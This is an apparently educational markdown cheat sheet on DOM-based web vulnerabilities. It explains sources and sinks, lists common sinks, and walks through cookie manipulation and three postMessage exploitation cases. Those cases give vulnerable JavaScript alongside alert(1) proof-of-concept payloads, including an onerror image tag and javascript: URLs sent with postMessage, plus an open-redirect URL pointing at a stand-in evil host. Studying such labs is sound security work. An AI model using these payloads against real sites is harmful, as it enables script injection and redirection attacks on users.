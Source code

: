 # What is DOM 

**There is two terms to find DOM Vulnerbility**
  1- Source
  2- Sink
 
### Source:
 ```
 A source is a JavaScript property that accepts data that is potentially attacker-controlled. An example of a 
 source is the `location.search` property because it reads input from the query string, which is relatively simple 
 for an attacker to control. Ultimately, any property that can be controlled by the attacker is a potential source. 
 This includes the referring URL (exposed by the `document.referrer` string), the user's cookies (exposed by the 
 `document.cookie` string), and web messages.**
 ```
### Sink: 
  ```
  A sink is a potentially dangerous JavaScript function or DOM object that can cause undesirable effects if 
  attacker-controlled data is passed to it. For example, the `eval()` function is a sink because it processes 
  the argument that is passed to it as JavaScript. An example of an HTML sink is `document.body.innerHTML` because it
  potentially allows an attacker to inject malicious HTML and execute arbitrary JavaScript.
  ```
The most common source is the URL, which is typically accessed with the `location` object. An attacker can construct a link to send a victim to a vulnerable page with a payload in the query string and fragment portions of the URL. Consider the following code:
```js
goto = location.hash.slice(1)
if (goto.startsWith('https:')) {
  location = goto;
}
```
This is vulnerable to DOM-based open redirection because the `location.hash` source is handled in an unsafe way. If the URL contains a hash fragment that starts with `https:`, this code extracts the value of the `location.hash` property and sets it as the location property of the window. An attacker could exploit this vulnerability by constructing the following URL:
 - ```https://www.innocent-website.com/example#https://www.evil-user.net```
 
 ## Which sink can lead to DOM-based Vulnerabilities?
 
 #### The following list provides a quick overview of common DOM-based vulnerabilities and an example of a sink that can lead to each one. For a more comprehensive list of relevant sinks, please refer to the vulnerability-specific pages by clicking the links below.
 
|DOM-based vulnerability		|		Example sink            |     
|-------------------------------|-------------------------------|		
|[DOM XSS](https://portswigger.net/web-security/cross-site-scripting/dom-based)            					|		document.write()		|			
|[Open redirection LABS](https://portswigger.net/web-security/dom-based/open-redirection)			|		window.location			|			
|[Cookie manipulation LABS](https://portswigger.net/web-security/dom-based/cookie-manipulation)		|		document.cookie			|		
|JavaScript injection			|		eval()					|
|Document-domain manipulation	|		document.domain				|	
|WebSocket-URL poisoning		|		WebSocket()					|
|Link manipulation				|		element.src 				|	
|Web message manipulation		|		postMessage()				|	
|Ajax request-header manipulation|		setRequestHeader()			|	
|Local file-path manipulation	|		FileReader.readAsText()		|		
|Client-side SQL injection		|		ExecuteSql()				|	
|HTML5-storage manipulation		|		sessionStorage.setItem()	|		
|Client-side XPath injection	|		document.evaluate()			|	
|Client-side JSON injection		|		JSON.parse()				|		
|DOM-data manipulation			|		element.setAttribute()		|			
|Denial of service				|		RegExp()					|
 
## Exploiting : Cookie Manipulation 
  ```html
  <script>
       document.cookie = 'lastViewedProduct=' + window.location + '; SameSite=None; Secure'
   </script>
  ```
   If the website unsafely reflects values from cookies without HTML-encoding them, an attacker can use cookie-manipulation techniques to exploit this behavior.

 
 ## Exploiting web message 
 
 **1- Exploit the postMessage Vulnerability:**
  ```js
  Here is vulnerable code:
  window.addEventListener('message', function(e) {
          document.getElementById('ads').innerHTML = e.data;
   })

  ```
  *Exploit:*
  
    - Goto the source tab add breakpoint to document.getElement
    - Goto the console tab
    - window.postMessage('<img src=x onerror=alert(1)>','*')
    - You should get alert popup


**2- Explot postMessage Vulnerability:**

  Here is vulnerable code:
  ```js
  window.addEventListener('message', function(e) {
      var url = e.data;
          if (url.indexOf('http:') > -1 || url.indexOf('https:') > -1) {
                  location.href = url;
           }
  }, false);
  ```

   *Analysis:*
    This script sends a web message containing an arbitrary JavaScript payload, along with the string "http:". The second argument 
    specifies that any targetOrigin is allowed for the web message.

   When the iframe loads, the postMessage() method sends the JavaScript payload to the main page. The event listener spots the 
   "http:" string and proceeds to send the payload to the location.href sink, where the print() function is called.

  **Exploit:** 
  
    1- Goto the developer tool in source tab add breakpoint to the `url` var.   
    2- Then goto the console tab type 
        window.postMessage('javascript:alert(1)//http:','*')
    3- You can Iframe to exploit for poc


 **3. Exploiting postMessage DOM using JSON**
 
   Here is Vulnerable Code
   ```js
    window.addEventListener('message', function(e) {
        var iframe = document.createElement('iframe'), ACMEplayer = {element: iframe}, d;
        document.body.appendChild(iframe);
        try {
            d = JSON.parse(e.data);
        } catch(e) {
            return;
        }
        switch(d.type) {
            case "page-load":
                ACMEplayer.element.scrollIntoView();
                break;
            case "load-channel":
                ACMEplayer.element.src = d.url;
                break;
            case "player-height-changed":
                ACMEplayer.element.style.width = d.width + "px";
                ACMEplayer.element.style.height = d.height + "px";
                break;
        }
    }, false);
```
**Analysis:**

  Notice that the home page contains an event listener that listens for a web message. This event listener expects a string that is parsed using `JSON.parse()`. In the JavaScript, we can see that the event listener expects a type property and that the `load-channel` case of the `switch` statement changes the `iframe` `src` attribute.

  When the `iframe` we constructed loads, the `postMessage()` method sends a web message to the home page with the type `load-channel`. The event listener receives the message and parses it using `JSON.parse()` before sending it to the `switch.`

  The switch triggers the `load-channel` case, which assigns the url property of the message to the src attribute of the `ACMEplayer.element` `iframe`. However, in this case, the `url` property of the message actually contains our JavaScript payload.

  As the second argument specifies that any `targetOrigin` is allowed for the web message, and the event handler does not contain any form of origin check, the payload is set as the src of the `ACMEplayer.element` `iframe`. The `print()` function is called when the victim loads the page in their browser.

**Exploit:**
  -  Goto the source tab add break point to `var  iframe`.
  -  Then switch to console tab and write down.
      window.postMessage("{\"type\":\"load-channel\",\"url\":\"javascript:alert(1)\"}","*")
  - You will get alert window.
  - Iframe this exploit for poc.

 
 
 
 
 
 
 
 
